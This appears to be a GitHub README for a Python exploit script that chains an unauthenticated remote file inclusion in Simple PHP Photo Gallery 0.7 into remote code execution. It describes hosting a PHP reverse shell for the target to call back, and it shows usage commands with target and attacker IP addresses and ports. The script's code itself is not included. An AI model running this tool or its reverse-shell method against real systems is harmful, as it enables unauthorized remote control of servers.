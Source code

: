 # SimplePHPGal-RCE.py RFI --> RCE
Simple PHP Photo Gallery 0.7 is vulnerable to Unauthenticated RFI. This script will attempt to turn that into RCE by automatically hosting a PHP reverse shell and then calling that shell back. The attacker still needs to catch the shell with netcat or something similar. 

Credit: https://www.exploit-db.com/exploits/48424

python3 SimplePHPGal-RCE.py -h

usage: SimplePHPGal-RCE.py [-h] [--httpport HTTPPORT] url attackerip attackerport

This script uses an RFI in SimplePHPGal to get RCE

python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444

python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444 --httpport 8080

positional arguments:

  url                  The URL of the target.
  
  attackerip           Kali IP address for reverse shell and http server
  
  attackerport         Port for the reverse shell.


optional arguments:

  -h, --help           show this help message and exit
  
  --httpport HTTPPORT  Port for the http server. Default 80
